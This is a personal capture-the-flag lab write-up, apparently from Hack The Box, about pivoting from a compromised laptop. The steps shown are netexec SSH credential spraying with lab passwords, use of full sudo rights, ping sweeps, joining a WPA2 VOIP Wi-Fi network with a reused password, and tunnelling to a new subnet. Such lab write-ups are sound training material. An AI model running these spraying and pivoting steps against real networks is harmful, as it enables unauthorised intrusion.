


This machine was discovered during the pwnage of the Mobile-API machine:

```bash
ORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c8:fb:7d:9f:00:c2:58:33:bb:4c:6b:83:38:c6:b5:43 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIvq8LKrTaaAVxRSlJRP7hfyzHU3kwXbXBz4z/Cy/5X5yA4blfMnkb+SgN/G3ZbItqco4SjXnvc/cBjX0utzIvc=
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/15%OT=22%CT=%CU=%PV=Y%G=N%TM=69DF7A9E%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=108%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FD%GCD=1%ISR=103%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# SSH

Now I need to find which of my users can login into this system and netexec is useful in that sense and seems like the flag was a "guide" telling me expicitly to use the user "house":

```bash
─$ netexec ssh 10.0.3.10 -u users_linux.txt -p passwords_linux.txt --no-bruteforce
SSH         10.0.3.10       22     10.0.3.10        [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.11
SSH         10.0.3.10       22     10.0.3.10        [-] api:apiSecretPw
SSH         10.0.3.10       22     10.0.3.10        [-] katja:Boneyard87!
SSH         10.0.3.10       22     10.0.3.10        [-] gizmo:JunktownKing!
SSH         10.0.3.10       22     10.0.3.10        [-] izo:NukaCola2077!
SSH         10.0.3.10       22     10.0.3.10        [-] wanderer:SynthLivesMatter
SSH         10.0.3.10       22     10.0.3.10        [-] benny:BootRiders4Life!
SSH         10.0.3.10       22     10.0.3.10        [-] ghoul:Vaultboy4Prez!
SSH         10.0.3.10       22     10.0.3.10        [+] house:Lucky38 (Pwn3d!) Linux - Shell access!

```

And I can immediately see that this new user is root even here!

```bash
$ ssh house@10.0.3.10                            
The authenticity of host '10.0.3.10 (10.0.3.10)' can't be established.
ED25519 key fingerprint is: SHA256:N7m+evo3HgTYXIlrWlWLtAf8lItuVrQN5k68dN53o4E
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.3.10' (ED25519) to the list of known hosts.
house@10.0.3.10's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-134-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
Last login: Sun Apr 27 15:07:59 2025 from 10.0.3.1
house@laptop-01:~$ sudo -l
Matching Defaults entries for house on laptop-01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User house may run the following commands on laptop-01:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
house@laptop-01:~$ cat .
./                         .bash_history              .bashrc                    .mysql_history             .sudo_as_admin_successful
../                        .bash_logout               .cache/                    .profile                   
house@laptop-01:~$ ll
total 24
drwxr-x--- 3 house house 4096 Apr 15 12:10 ./
drwxr-xr-x 3 root  root  4096 Mar 13  2025 ../
lrwxrwxrwx 1 root  root     9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 house house  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 house house 3771 Jan  6  2022 .bashrc
drwx------ 2 house house 4096 Apr 27  2025 .cache/
lrwxrwxrwx 1 root  root     9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 house house  807 Jan  6  2022 .profile
-rw-r--r-- 1 house house    0 Apr 15 12:10 .sudo_as_admin_successful
house@laptop-01:~$ 

```

And get another flag from this machine:

```bash
root@laptop-01:~# cat flag.txt 
HTB{e92d8e9d149a7de79a825acff5832b89}
```

# Post Exploitation

Now I see that this machine has WIFI. and I guess this is where it get's in this part?



```bash
root@laptop-01:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:12:b4:4a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.3.10/24 metric 100 brd 10.0.3.255 scope global dynamic eth0
       valid_lft 3543sec preferred_lft 3543sec
    inet6 fe80::216:3eff:fe12:b44a/64 scope link 
       valid_lft forever preferred_lft forever
5: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
root@laptop-01:/# 

```

Now here I was totally lost and I got a nudge to check for other subnets, and all the previous machines like FTS01 and MOBILE01 had no ping installed but this is the first machine that allows me to do it:

```bash
root@laptop-01:/tmp# for i in {1..254} ;do (ping 172.16.1.$i -c 1 -w 5  >/dev/null && echo "172.16.1.$i" &) ;done
root@laptop-01:/tmp# for i in {1..254} ;do (ping 172.16.2.$i -c 1 -w 5  >/dev/null && echo "172.16.2.$i" &) ;done
172.16.2.1
172.16.2.3
172.16.2.4
root@laptop-01:/tmp# for i in {1..254} ;do (ping 172.16.3.$i -c 1 -w 5  >/dev/null && echo "172.16.3.$i" &) ;done
root@laptop-01:/tmp# 
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.1.$i -c 1 -w 5  >/dev/null && echo "10.0.1.$i" &) ;done
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.2.$i -c 1 -w 5  >/dev/null && echo "10.0.2.$i" &) ;done
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.3.$i -c 1 -w 5  >/dev/null && echo "10.0.3.$i" &) ;done
10.0.3.1
10.0.3.10
root@laptop-01:/tmp# for i in {1..254} ;do (ping 10.0.4.$i -c 1 -w 5  >/dev/null && echo "10.0.4.$i" &) ;done
root@laptop-01:/tmp# 

```

So that .1 must be a router or I am missing something, then there is a totally new subnet where I can see more machines. And this other user has no access at all to the machine with the current users:

```bash
└─$ netexec ssh 10.0.3.1 -u users_linux.txt -p passwords_linux.txt --no-bruteforce --continue-on-success
SSH         10.0.3.1        22     10.0.3.1         [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.11
SSH         10.0.3.1        22     10.0.3.1         [-] api:apiSecretPw
SSH         10.0.3.1        22     10.0.3.1         [-] katja:Boneyard87!
SSH         10.0.3.1        22     10.0.3.1         [-] gizmo:JunktownKing!
SSH         10.0.3.1        22     10.0.3.1         [-] izo:NukaCola2077!
SSH         10.0.3.1        22     10.0.3.1         [-] wanderer:SynthLivesMatter
SSH         10.0.3.1        22     10.0.3.1         [-] benny:BootRiders4Life!
SSH         10.0.3.1        22     10.0.3.1         [-] ghoul:Vaultboy4Prez!
SSH         10.0.3.1        22     10.0.3.1         [-] house:Lucky38
                                                                              
```

But I see that this machine can reach the VOIP wifi?

```bash
root@laptop-01:/tmp# iwlist wlan0 scan | grep ESSID
                    ESSID:"VOIP"
root@laptop-01:/tmp# iwlist wlan0 scan 
wlan0     Scan completed :
          Cell 01 - Address: 02:00:00:00:00:00
                    Channel:1
                    Frequency:2.412 GHz (Channel 1)
                    Quality=70/70  Signal level=-30 dBm  
                    Encryption key:on
                    ESSID:"VOIP"
                    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s
                              9 Mb/s; 12 Mb/s; 18 Mb/s
                    Bit Rates:24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s
                    Mode:Master
                    Extra:tsf=00064f7f312826a5
                    Extra: Last beacon: 68ms ago
                    IE: Unknown: 0004564F4950
                    IE: Unknown: 010882848B960C121824
                    IE: Unknown: 030101
                    IE: Unknown: 2A0104
                    IE: Unknown: 32043048606C
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: Unknown: 3B025100
                    IE: Unknown: 7F080400400200000040

```

Now apparently the password I exported from the MongoDB in Mobile-API allows me to login to the WIFI:

```bash
root@laptop-01:/tmp# wpa_supplicant -i wlan0 -c <(wpa_passphrase "VOIP" "SynthLivesMatter")
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
wlan0: CTRL-EVENT-SCAN-FAILED ret=-16 retry=1
wlan0: SME: Trying to authenticate with 02:00:00:00:00:00 (SSID='VOIP' freq=2412 MHz)
wlan0: Trying to associate with 02:00:00:00:00:00 (SSID='VOIP' freq=2412 MHz)
wlan0: Associated with 02:00:00:00:00:00
wlan0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlan0: WPA: Key negotiation completed with 02:00:00:00:00:00 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 02:00:00:00:00:00 completed [id=0 id_str=]

```

And now In a second tab I can ask for the DHCP client and obtain a IP:

```bash
oot@laptop-01:/home/house# dhclient wlan0
root@laptop-01:/home/house# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:12:b4:4a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.3.10/24 metric 100 brd 10.0.3.255 scope global dynamic eth0
       valid_lft 3520sec preferred_lft 3520sec
    inet6 fe80::216:3eff:fe12:b44a/64 scope link 
       valid_lft forever preferred_lft forever
5: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.100.93/24 brd 192.168.100.255 scope global dynamic wlan0
       valid_lft 43193sec preferred_lft 43193sec
    inet6 fe80::ff:fe00:200/64 scope link 
       valid_lft forever preferred_lft forever
root@laptop-01:/home/house# 


```

# Post Exploitation

Now another scan shows these IPs on that new subnet:

```bash
root@laptop-01:/home/house# for i in {1..254} ;do (ping 192.168.100.$i -c 1 -w 5  >/dev/null && echo "192.168.100.$i" &) ;done
192.168.100.1
192.168.100.5
192.168.100.93
root@laptop-01:/home/house# 

```

Now I setup a different tunnel in Ligolo-NG so that I can reach the new subnet:  


And now I can start fuzzing for ports:

```bash
//The first machine
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 16:d4:81:b7:6d:e5:ea:a1:c5:4c:37:d6:23:2f:26:e5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLEKL7QqTmfMJVxZUHe5GlRw8oIJVd+DB6Oy9pXr6fM9/qos6wuCi2icAL9HiMDXa03OU3Nb7J6TxPOEfUjkK9E=
|   256 32:e1:6e:f3:d1:01:86:55:b5:ec:34:ef:03:ab:be:b5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB7dAlGFnzyk7NApf3kmnn9yJ1KVNilXOmu1le/C6fD1
53/tcp open  domain  syn-ack ttl 64 dnsmasq 2.90
| dns-nsid: 
|_  bind.version: dnsmasq-2.90
80/tcp open  http    syn-ack ttl 64 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Wifi Router
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/15%OT=22%CT=%CU=%PV=Y%G=N%TM=69DF9679%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=107%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FE%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

//The second machine
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 45:42:d0:1e:a4:b6:7c:b3:b7:1b:fd:54:39:7e:c4:90 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDbD7x9bObhuG+FwChyhXHvqL8XamOXoKJyi8trhYVi3OoT+ygxOS1UC8eQwxrwb55kcXqw45n1JIVRxvbnizMA=
|   256 1f:14:9a:14:ba:e6:6b:eb:ff:e4:c0:8f:18:78:d4:07 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPKgyfYbcyJPkrKeL4kb896ISg2wBkPJ5OJwujVLNYK7
5038/tcp open  asterisk syn-ack ttl 64 Asterisk Call Manager 9.0.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Dell PowerConnect 3348 switch (86%), Sony Ericsson Hazel (J10, J20) or Elm mobile phone (85%), Sony Ericsson W705 or W995 Walkman mobile phone (85%), IBM OS/390 V2 (85%), HP OpenVMS 7.3 - 8.3 (85%), IBM z/OS 1.12 (85%), IBM z/OS 1.11 (85%), IBM z/OS 1.13 (85%), IBM z/OS 2.1 (85%), Blue Coat SG210 proxy server (SGOS 5.2.3.3 - 5.2.3.9) (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/15%OT=22%CT=%CU=%PV=Y%G=N%TM=69DF9700%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=105%GCD=1%ISR=108%TI=I%CI=RD%II=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 15.202 days (since Tue Mar 31 10:57:17 2026)
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Here I can see another nice flag hehe:

```bash
└─$ curl http://192.168.100.1                                                                     
<html>
    <head>
        <title>Wifi Router</title>
    </head>
    <body>
        <h1>In Development</h1>
        HTB{28031cbce5c3af0ac53ede24a1bc79bf}
    </body>
</html>   
```

Next, seems like none of the current users can login in here so far:

```bash
└─$ netexec ssh 192.168.100.1 -u users_linux.txt -p passwords_linux.txt --no-bruteforce --continue-on-success
SSH         192.168.100.1   22     192.168.100.1    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.11
SSH         192.168.100.1   22     192.168.100.1    [-] api:apiSecretPw
SSH         192.168.100.1   22     192.168.100.1    [-] katja:Boneyard87!
SSH         192.168.100.1   22     192.168.100.1    [-] gizmo:JunktownKing!
SSH         192.168.100.1   22     192.168.100.1    [-] izo:NukaCola2077!
SSH         192.168.100.1   22     192.168.100.1    [-] wanderer:SynthLivesMatter
SSH         192.168.100.1   22     192.168.100.1    [-] benny:BootRiders4Life!
SSH         192.168.100.1   22     192.168.100.1    [-] ghoul:Vaultboy4Prez!
SSH         192.168.100.1   22     192.168.100.1    [-] house:Lucky38
                                                                                                                                                                
┌──(user㉿kali-almi)-[~/Downloads/Wanderer]
└─$ netexec ssh 192.168.100.5 -u users_linux.txt -p passwords_linux.txt --no-bruteforce --continue-on-success
SSH         192.168.100.5   22     192.168.100.5    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.11
SSH         192.168.100.5   22     192.168.100.5    [-] api:apiSecretPw
SSH         192.168.100.5   22     192.168.100.5    [-] katja:Boneyard87!
SSH         192.168.100.5   22     192.168.100.5    [-] gizmo:JunktownKing!
SSH         192.168.100.5   22     192.168.100.5    [-] izo:NukaCola2077!
SSH         192.168.100.5   22     192.168.100.5    [-] wanderer:SynthLivesMatter
SSH         192.168.100.5   22     192.168.100.5    [-] benny:BootRiders4Life!
SSH         192.168.100.5   22     192.168.100.5    [-] ghoul:Vaultboy4Prez!
SSH         192.168.100.5   22     192.168.100.5    [-] house:Lucky38

```

And now since I know the  next is about asterisk (judging that management port I will move on to that page.